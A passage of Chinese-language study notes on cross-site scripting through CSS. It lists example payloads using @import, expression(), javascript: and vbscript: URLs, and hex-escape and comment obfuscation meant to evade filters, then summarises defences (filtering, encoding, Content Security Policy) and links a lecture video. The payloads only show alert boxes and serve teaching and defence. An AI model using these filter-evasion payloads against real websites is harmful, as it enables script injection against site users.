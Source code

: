 #### **2.样式表**

**(1)利用CSS代码@import、expression触发XSS漏洞。**

```css
例1：@import "http://web/xss.css"; '导入外部带有XSS代码的CSS样式表。

例2：@import'javascript:alert("xss")'; '调用javascript脚本触发漏洞

例3：body{xss:expression(alert('xss'))} '在内部样式表中加入expression事件

例4：<img style="xss:**expression(alert("xss"))">'在内嵌样式表中加入expression事件
```

**(2)在CSS代码中加入javascript和vbscript脚本**

```css
例1：body{background-image:url(javascript:alert("xss"))}

例2：body{background-image:url(vbscript:msgbox("xss"))}
```

**(3)转换字符类型，以十六进制字符替换其中或全部的字符：**

```css
例1：@\0069mport:url(web/1.css);’//将其中的i转为\0069

例2：body{xss:\0065xpression(alert(‘xss’))}’//将e转换为\0065

例3：body{background-image:\0075\0072\006c…}’将url全转为16进制
```

**(4)插入混淆字符，在css中，/\*\*/是注释字符，除了/\*\*/外，字符"\\"和结束符"\\0″也是被忽略的，可以用来混淆字符。**

```css
例1：@\0im\port’\0ja\vasc\ript:alert(“xss”)’;

例2：@\i\0m\00p\000o\0000\00000r\000000t”url”;
```

### **防范方法：**

防御XSS攻击主要有两种方法，一种是设法过滤掉数据中的代码或把代码转换成数据，一种是强制开发者把代码和数据分开，再对代码部分添加约束条件。

（1）对于第一种方法，关键在于如何去除来自用户输入中的代码或使其无效。一般有两种方法：

1. 过滤方法：即删除用户输入中的代码，开发者可使用过滤器实现从数据中过滤掉JavaScript代码。

2. 编码方法：编码能将HTML标记进行替换表示。服务器将注入的JavaScript代码进行编码，当浏览器看到被编码的脚本后，只会将JavaScript代码显示出来，而不会执行它。

（2）对于第二种方法，关键在于将代码和数据分离开来，并设置相应规则来禁止执行来自不可信源的JavaScript代码。这可以通过内容安全策略机制(CSP)来实现。CSP是为了有效地防御XSS攻击而开发的一套机制，设置相应的CSP规则可有效地禁止恶意代码的运行，提高程序对XSS攻击的抵抗力。

## 7、认真观看，P3 Cross-Site Scripting Attack Lecture

https://www.bilibili.com/video/BV1a441117kb

大概说下视频的内容。
